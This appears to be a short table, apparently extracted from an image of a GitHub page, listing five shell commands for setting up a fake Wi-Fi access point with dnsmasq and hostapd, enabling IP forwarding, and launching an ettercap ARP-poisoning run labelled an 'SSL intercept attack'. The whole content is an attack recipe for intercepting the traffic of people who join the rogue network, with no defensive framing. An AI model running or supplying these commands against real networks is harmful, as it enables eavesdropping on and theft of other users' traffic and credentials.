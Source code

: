 | **Command** | **Description** |
| --- | --- |
| sudo ifconfig wlan1 192.168.0.1/24 | Configure the IP address for the interface that will host the fake access point. |
| sudo dnsmasq -c dns.conf -d | Start the DNS server. |
| sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip\_forward' | Enable IP forwarding. |
| sudo hostapd hostapd.conf | Start the access point. |
| ettercap -T -q -M ARP -i wlan1 | Initiate the SSL intercept attack |